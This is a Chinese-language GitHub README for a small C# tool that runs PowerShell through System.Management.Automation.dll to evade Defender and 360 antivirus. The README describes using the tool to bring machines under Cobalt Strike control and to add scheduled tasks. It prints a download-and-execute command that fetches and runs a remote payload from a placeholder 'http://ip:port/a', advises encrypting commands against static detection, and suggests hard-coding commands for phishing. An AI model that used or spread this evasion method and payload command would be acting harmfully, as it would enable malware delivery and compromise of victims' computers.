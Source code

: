 # powershell-bypss

powershell命令免杀的小工具，可过Defender、360等，可执行上线cobaltstrike、添加计划任务等。

**请勿使用于任何非法用途，由此产生的后果自行承担。**

**理论上来说可以免杀执行任意powershell命令，但是调用了如schtask这类被监控的程序还是会被查杀的。**

上述测试环境均为实体机。

思路很简单，很久之前就有了，工具调用C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation目录下面的System.Management.Automation.dll执行底层api来绕过杀软对powershell的监控。

尝试过使用base64对命令进行编码，但是好像会被Defender检测，用纯命令反而不会，这里用+加号替换了命令中空格，当然这就是一个命令的加载器，具体怎么加密命令有各种各样的方法。

由于是C#，因此可以用execute-assembly内存执行的方式来不落地执行，不过cs本身的powerpick就实现了这个功能，这里只是单拿出来做一个小工具。

**师傅们注意避免用powershell命令，上线cobaltstrike只需要```Csharp.exe IEX+((new-object+net.webclient).downloadstring('http://ip:port/a'))```裸命令，如果以powershell开头那么还是会调用powershell被360拦截的。**

**这里只是做了个小demo，师傅们可以在demo的基础上来设置自己的命令加密方式，这样可以更有效地避免杀软的静态检测。**

**想钓鱼的师傅可以把命令写定在程序里。**

![32430eaf1b8ae7db520dd85e5cc82bf](https://user-images.githubusercontent.com/48757788/198879143-1caaf6d9-2ed9-4894-9233-10ff7aa7ad39.jpg)

![d559a936be1592a0bcbbaff24e88dc8](https://user-images.githubusercontent.com/48757788/198879156-82253c57-ff50-4b21-be0d-d71253db032b.jpg)





